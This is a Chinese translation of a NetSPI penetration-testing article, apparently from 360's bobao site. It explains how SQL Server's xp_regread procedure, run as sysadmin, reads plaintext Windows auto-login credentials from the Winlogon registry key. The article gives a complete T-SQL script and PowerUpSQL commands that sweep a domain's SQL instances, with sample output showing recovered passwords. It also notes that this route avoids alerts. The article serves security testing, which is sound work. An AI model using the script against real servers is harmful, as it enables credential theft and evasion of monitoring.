

# 【技术分享】通过SQL Server与PowerUpSQL获取Windows自动登录密码


                                阅读量   
                                **110516**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：netspi.com
                                <br>原文地址：[https://blog.netspi.com/get-windows-auto-login-passwords-via-sql-server-powerupsql/](https://blog.netspi.com/get-windows-auto-login-passwords-via-sql-server-powerupsql/)

译文仅供参考，具体内容表达以及含义原文为准

**[](./img/85526/t01f09ea3ba86d67b81.jpg)**

****

翻译：[烤土豆](http://bobao.360.cn/member/contribute?uid=20928636)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿


**前言**

在本文中，我将演示如何使用PowerUpSQL通过SQL Server转储Windows自动登录密码。 我还将谈一下例如xp_regread等其他方式存储过程在渗透测试中利用方法。

<br>

**xp_regread的简短历史**

自SQL Server 2000以来，xp_regread扩展存储过程一直存在。自从SQL Server 2000允许Public角色的成员访问SQL Server服务帐户中任何有权限的东西。 当时，它有一个非常大的影响，因为常见的SQL Server作为LocalSystem运行。

自从SQL Server 2000 SP4发布以来，xp_regread的影响已经相当小，由于添加了一些访问控制，防止低特权登录的用户去访问注册表敏感的位置。 现在，无权限用户只可访问与SQL Server相关的注册表位置。 有关这些的列表，请访问[https://support.microsoft.com/en-us/kb/887165](https://support.microsoft.com/en-us/kb/887165) 

以下是一些更有趣的访问路径：

```
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  Microsoft SQL Server  
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  MSSQLServer 
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  Search 
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  SQLServer 
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  Windows消息子系统 
HKEY_LOCAL_MACHINE  SYSTEM  CurrentControlSet  Services  EventLog  Application  SQLServer 
HKEY_LOCAL_MACHINE  SYSTEM  CurrentControlSet  Services  SNMP  Parameters  ExtensionAgents 
HKEY_LOCAL_MACHINE  SYSTEM  CurrentControlSet  Services  SQLServer 
HKEY_CURRENT_USER  Software  Microsoft  Mail HKEY_CURRENT_USER  Control Panel  International
```

<br>

**具有 Public权限的xp_regread的实际用途**

xp_regread可以用来获取很多有用的信息。 事实上，当作为最低权限登录时，我们可以使用它来获取无法在通过其他方式而获得的服务器信息。 例如，PowerUpSQL中的Get-SQLServerInfo函数可以得到一些信息。

```
PS C:&gt; Get-SQLServerInfo
ComputerName           : SQLServer1
Instance               : SQLServer1
DomainName             : demo.local
ServiceName            : MSSQLSERVER
ServiceAccount         : NT ServiceMSSQLSERVER
AuthenticationMode     : Windows and SQL Server Authentication
Clustered              : No
SQLServerVersionNumber : 12.0.4213.0
SQLServerMajorVersion  : 2014
SQLServerEdition       : Developer Edition (64-bit)
SQLServerServicePack   : SP1
OSArchitecture         : X64
OsMachineType          : WinNT
OSVersionName          : Windows 8.1 Pro
OsVersionNumber        : 6.3
Currentlogin           : demouser
IsSysadmin             : Yes
ActiveSessions         : 3
```

在SQL Server SP4中实现的访问控制限制不适用于sysadmins。 因此，SQL Server服务帐户可以在注册表中访问的任何内容，sysadmin可以通过xp_regread访问。

乍一看，这可能不是一个大问题，但它确实允许我们从注册表中提取敏感数据，而无需启用xp_cmdshell，当xp_cmdshell启用和使用时可能会触发大量警报。

<br>

**使用xp_regread恢复Windows自动登录凭据**

可以将Windows配置为在计算机启动时自动登录。 虽然这不是企业环境中的常见配置，但这是我们在其他环境中经常看到的。 特别是那些支持传统POS终端和Kiosk与本地运行SQL Server的。 在大多数情况下，当Windows配置为自动登录时，未加密的凭据存储在注册表项中：

```
HKEY_LOCAL_MACHINE SOFTWAREMicrosoftWindows NTCurrentVersionWinlogon
```

利用该信息，我们可以编写一个基本的TSQL脚本，该脚本使用xp_regread将自动登录凭据从我们的注册表中提取出来，而无需启用xp_cmdshell。 下面是一个TSQL脚本示例，但由于注册表路径不在允许的列表中，我们必须将查询作为sysadmin运行：

```
-------------------------------------------------------------------------
-- Get Windows Auto Login Credentials from the Registry
-------------------------------------------------------------------------
-- Get AutoLogin Default Domain
DECLARE @AutoLoginDomain  SYSNAME
EXECUTE master.dbo.xp_regread
@rootkey        = N'HKEY_LOCAL_MACHINE',
@key            = N'SOFTWAREMicrosoftWindows NTCurrentVersionWinlogon',
@value_name     = N'DefaultDomainName',
@value          = @AutoLoginDomain output
-- Get AutoLogin DefaultUsername
DECLARE @AutoLoginUser  SYSNAME
EXECUTE master.dbo.xp_regread
@rootkey        = N'HKEY_LOCAL_MACHINE',
@key            = N'SOFTWAREMicrosoftWindows NTCurrentVersionWinlogon',
@value_name     = N'DefaultUserName',
@value          = @AutoLoginUser output
-- Get AutoLogin DefaultUsername
DECLARE @AutoLoginPassword  SYSNAME
EXECUTE master.dbo.xp_regread
@rootkey        = N'HKEY_LOCAL_MACHINE',
@key            = N'SOFTWAREMicrosoftWindows NTCurrentVersionWinlogon',
@value_name     = N'DefaultPassword',
@value          = @AutoLoginPassword output 
-- Display Results
SELECT @AutoLoginDomain, @AutoLoginUser, @AutoLoginPassword
```

我还创建了一个名为“Get-SQLRecoverPwAutoLogon”的PowerUpSQL函数，所以你可以直接运行它。 它将获取到默认Windows自动登录信息和备用Windows自动登录信息（如果已设置）。 然后它返回相关的域名，用户名和密码。

下面是命令示例。

```
PS C:&gt; $Accessible = Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose -Threads 15| Where-Object {$_.Status –eq “Accessible”}
PS C:&gt; $Accessible | Get-SQLRecoverPwAutoLogon -Verbose
VERBOSE: SQLServer1.demo.localInstance1 : Connection Success.
VERBOSE: SQLServer2.demo.localApplication : Connection Success.
VERBOSE: SQLServer2.demo.localApplication : This function requires sysadmin privileges. Done.
VERBOSE: SQLServer3.demo.local2014 : Connection Success.
VERBOSE: SQLServer3.demo.local2014 : This function requires sysadmin privileges. Done.
ComputerName : SQLServer1
Instance     : SQLServer1Instance1
Domain       : demo.local
UserName     : KioskAdmin
Password     : test
ComputerName : SQLServer1
Instance     : SQLServer1Instance1
Domain       : demo.local
UserName     : kioskuser
Password     : KioskUserPassword!
```

<br>

**结尾**

即使xp_regread扩展存储过程已被部分关闭，不过仍然有很多方法，可以证明在渗透测试期间十分有用。 希望你会与“Get-SQLServerInfo”，“Get-SQLRecoverPwAutoLogon”函数有更多乐趣。

<br>

**参考**

[https://support.microsoft.com/en-us/kb/887165](https://support.microsoft.com/en-us/kb/887165) 

[https://msdn.microsoft.com/en-us/library/aa940179(v=winembedded.5).aspx](https://msdn.microsoft.com/en-us/library/aa940179(v=winembedded.5).aspx) 

[http://sqlmag.com/t-sql/using-t-sql-manipulate-registry](http://sqlmag.com/t-sql/using-t-sql-manipulate-registry) 
